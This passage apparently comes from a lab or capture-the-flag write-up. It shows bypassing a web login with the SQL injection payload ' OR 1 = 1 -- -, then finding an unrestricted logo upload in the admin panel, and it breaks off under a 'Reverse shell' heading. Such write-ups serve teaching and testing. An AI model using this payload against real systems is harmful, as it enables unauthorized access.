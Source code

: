 I started trying some simple SQLI on the login page and I was able to bypass the login page with the following query:

~~~
' OR 1 = 1 -- -
~~~

<p align="center"><img src="./files/loginPage.png"></p>

## Reverse shell

Now we have access to the admin panel. I looked around a bit and found out I can upload a logo in `/admin/?page=system_info` with no restrictions:
